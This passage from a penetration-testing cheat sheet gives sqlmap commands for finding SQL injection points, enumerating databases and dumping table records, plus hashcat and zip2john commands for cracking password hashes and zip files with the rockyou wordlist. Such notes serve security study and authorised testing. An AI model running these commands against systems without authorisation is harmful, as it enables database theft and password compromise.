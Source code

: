 ### SQLmap to find injection point
#### DB Banner
`sqlmap -u {url} -b`  
#### List All DBs
`sqlmap -u {url} --dbs`
#### List All Tables
`sqlmap -u {url} --current-db {db name} --tables`
#### List Table Columns
`sqlmap -u {url} --current-db {db name} -T {table} --columns`  
#### Dump Table Records
`sqlmap -u {url} --current-db {db name} -T {table} -C {column,names} --dump`

### Testing forms
`sqlmap -u {url} --forms`

### Further Resources
[PayloadAllTheThings SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)   
[PayloadAllTheThings NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)  

---
---

## Hashcat
- --force = ignore warnings
- -m = mode
- -a = attack mode
- -o = output file 
- --remove = remove cracked hashes from source file  

`hashcat --force -m {mode} -a 0 -o results.txt --remove {hashfile.hash} /usr/share/wordlists/rockyou.txt`  
```
crack zip files


zip2john zip.zip | cut -d ':' -f 2 > hashes.txt

-- edit zip hash to match example: $zip2$*0*3*0*b5d2b7bf57ad5e86a55c400509c672bd*d218*0**ca3d736d03a34165cfa9*$/zip2$

hashcat -a 0 -m 13600 hashes.txt /usr/share/wordlists/rockyou.txt
```

[Mode Reference](https://hashcat.net/wiki/doku.php?id=example_hashes)  
[Hash-Identifier Github](https://github.com/blackploit/hash-identifier)  
[Sample Hashes](https://openwall.info/wiki/john/sample-hashes)

---
---